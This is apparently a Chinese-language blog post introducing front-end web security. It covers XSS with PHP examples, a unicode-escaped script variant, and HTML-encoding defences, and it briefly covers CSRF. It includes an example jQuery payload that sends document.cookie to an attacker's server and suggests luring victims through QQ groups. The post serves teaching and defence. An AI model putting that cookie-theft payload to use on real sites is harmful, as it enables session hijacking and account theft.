 ```yaml
---
title: 前端安全感想
date: 2017-02-06 10:36:02
tags: 前端安全
categories: 前端安全
---
```

在网上很多人都担心安全问题，我的账号为什么被盗了，我的信息怎么会泄露呢？

下面我们来分类简单让大家了解下：

## XSS攻击

前端主要的代码有三块：HTML, CSS, JavaScript.

而XSS攻击jiu是JavaScript脚本注入，举个例子：
```
<?php
    $username="侯医生";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <div>
            用户名：<?php echo $username;?>
        </div>
        <div>
            第一条状态：侯医生的状态1
        </div>
        <div>
            第二条状态：侯医生的状态2
        </div>
        <div>
            第三条状态：侯医生的状态3
        </div>
    </body>
</html>
```
![](https://sfault-image.b0.upaiyun.com/701/600/701600306-57b92c7e724bc "结果图片")

若用户起名的时候故意带上script标签呢，例如：
```
<?php
    $username="<script>alert('侯医生');</script>";
?>
```
![](https://sfault-image.b0.upaiyun.com/231/619/2316196233-57b950abc20ee "结果图片")
没有错，script标签被执行了。别问我这又有什么用呢，呵呵，当script代码替换为：
```
$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'盗取的用户cookie': document.cookie}
});
```
再在各个QQ群中，散播自己的空间，引诱别人来访问。就可以拿到用户在这个域名下的cookie或者其他隐私了。

## solve:

解决办法当然是有的，最简单的就是将script标签进行转义

将 `<script>` 转义变为 `&lt;script&gt;`

结果如下：

![](https://sfault-image.b0.upaiyun.com/131/927/1319275882-57b95393c137b "结果图片")

我们看下html中的源码：

![](https://sfault-image.b0.upaiyun.com/421/602/4216027545-57b954db80610 "结果图片")

我们将用户传进来的字符串先进行hemlEncode处理
处理函数如下
```
function htmlEncode(s){  
    var div = document.createElement('div');  
    div.appendChild(document.createTextNode(s));  
    return div.innerHTML;  
}  
function htmlDecode(s){  
    var div = document.createElement('div');  
    div.innerHTML = s;  
    return div.innerText || div.textContent;  
}  
```
在JQ中也可以这样写：
```
function htmlEncodeJQ ( str ) {  
    return $('<span/>').text( str ).html();  
}
function htmlDecodeJQ ( str ) {  
    return $('<span/>').html( str ).text();  
}  
```


这是第一层最基础的防范，当然还有利用unicode码伪装的script标签，例如:**"\u003cscript\u003ealert('okok');"**
```
$(#id).append("\u003cscript\u003ealert('okok');");
```
JQ中的append会将其解析出来。

还有利用img中图片加载失败的时候会调用onerror方法进行script注入的和url中的参数

## CSRF攻击

CSRF（Cross-site request forgery跨站请求伪造，也被称为“One Click Attack”或者Session Riding，通常缩写为CSRF或者XSRF，是一种对网站的恶意利用。


防御的话，第一是用post请求保护自己的数据，第二是用token来做验证。具体操作的话自行百度。

## 最后的提醒，我们平时开发要注意些什么？
* 开发时要提防用户产生的内容，要对用户输入的信息进行层层检测
* 要注意对用户的输出内容进行过滤(进行转义等)
* 重要的内容记得要加密传输(无论是利用https也好，自己加密也好)
* get请求与post请求，要严格遵守规范，不要混用，不要将一些危险的提交使用jsonp完成。
* 对于URL上携带的信息，要谨慎使用。
* 心中时刻记着，自己的网站哪里可能有危险。

> 感想发自：[[聊一聊系列]聊一聊WEB前端安全那些事儿](https://segmentfault.com/a/1190000006672214?utm_source=weekly&utm_medium=email&utm_campaign=email_weekly#articleHeader14)


